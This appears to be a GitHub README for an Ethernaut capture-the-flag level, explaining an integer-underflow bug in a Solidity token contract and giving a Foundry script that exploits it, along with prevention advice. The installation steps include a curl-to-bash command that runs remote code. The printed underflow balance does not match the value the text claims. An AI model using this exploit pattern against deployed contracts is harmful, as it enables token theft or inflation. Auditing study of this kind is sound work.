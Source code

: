 # Ethernaut Level: Token - Smart Contract Auditing Journey

## Introduction
Hello! In this repository, I've solved the **Token** level as part of my Ethernaut challenges. I'm learning smart contract auditing by solving one level per day, and this folder (`levels/token/`) contains everything related to it.

**Goal:** Start with 20 tokens and acquire any additional tokens (preferably a very large amount) by exploiting the basic token contract.  
**Tools:** Foundry (for scripting and testing), Sepolia testnet.  
**Solved Date:** October 19, 2025 (Day 6).  
**Success:** Verified on the Ethernaut site!

## Contract Overview
This is a basic ERC20-like token contract with a fixed initial supply allocated to the deployer. The `transfer` function moves tokens but lacks proper overflow protection, allowing underflow exploits in Solidity ^0.6.0.

**Key Code Snippet (from src/Token.sol):**
```solidity
contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);  // Vulnerable: Underflow in subtraction!
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```

## Vulnerability Analysis
**Main Issue: Integer Underflow (Unchecked Arithmetic)**  
- In Solidity ^0.6.0, arithmetic operations like subtraction are unchecked, so if `_value > balances[msg.sender]`, `balances[msg.sender] - _value` underflows to a huge number (2^256 - (_value - balance)). The `require` sees this huge value >= 0 (true), then `balances[msg.sender] -= _value` underflows again, resulting in a massive balance.  
- **Security Impact:** Allows minting infinite tokens, breaking the token economy. This is a classic pre-0.8.0 vulnerability; audits must flag unchecked math.  
- **Audit Tip:** Always use SafeMath library (e.g., `balances[msg.sender] = balances[msg.sender].sub(_value);`) or upgrade to ^0.8.0 for built-in checks. Tools like Slither detect this with `--detect underflow`.

**Example:** With balance=20, transfer 21: 20 - 21 underflows to ~2^256 -1. Require passes (huge >=0), then balance becomes ~2^256 -1 after final subtraction—infinite tokens!

## Solution Steps
The exploit: Transfer a value larger than your balance (e.g., 21 when balance=20) to any address (e.g., address(0)). The underflow in subtraction creates a massive balance.

1. **Setup:** Create Foundry project, set target instance address in script.
2. **Run Attack:** `forge script script/TokenSolution.s.sol --rpc-url $SEPOLIA_RPC_URL --broadcast`.
3. **Verify:** Check `balanceOf(your_address)` >20 (huge number), submit on Ethernaut site.

**Key Attack Code Snippet (from script/TokenSolution.s.sol):**
```solidity
contract TokenSolution is Script {
    Token public tokenInstance = Token(<Contract_address>);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        console.log("Initial balance:", tokenInstance.balanceOf(vm.envAddress("MY_ADDRESS")));

        tokenInstance.transfer(address(0), 21);  // Underflow: 20 - 21 → massive balance!
        
        console.log("New balance:", tokenInstance.balanceOf(vm.envAddress("MY_ADDRESS")));

        vm.stopBroadcast();
    }   
}
```

## Test and Output
- **Local Test:** Run `anvil` and `forge test`—simulates underflow and massive balance.
- **Testnet Output Example:** Console log: "Initial balance: 20", "New balance: 115792089237316195423570985008687907853269984665640564039457584007913129639795" (huge underflow result).

## Key Learnings
- **Auditing Skill:** Review all arithmetic ops for underflow/overflow—use static tools like Slither early.
- **EVM Concept:** uint256 wraps around on underflow (mod 2^256), leading to silent exploits in pre-0.8 Solidity.
- **Prevention:** Require checks before ops (`require(balance >= _value)`) + SafeMath; prefer ^0.8.0+.
- **Next Step:** Test with different overflow values (e.g., type(uint256).max - 19) for variations.

## Installation & Run
1. Install Foundry: `curl -L https://foundry.paradigm.xyz | bash`.
2. `cd levels/token`.
3. Set `.env`: `PRIVATE_KEY=your_key` and `SEPOLIA_RPC_URL=your_rpc`.
4. Run script: `forge script script/TokenSolution.s.sol --rpc-url $SEPOLIA_RPC_URL --broadcast -vvvv`.

If you have questions, comment on the issue or mention me on X (@0xZHD_X)! Next level: Delegation. 🚀

---

- **License:** MIT  
- **Author:** [0xZHD] - Smart Contract Auditor Learner  
- **X:** [Zahedul I Sadik](@0xZHD_X)  
- **References:** [Ethernaut Docs](https://ethernaut.openzeppelin.com/)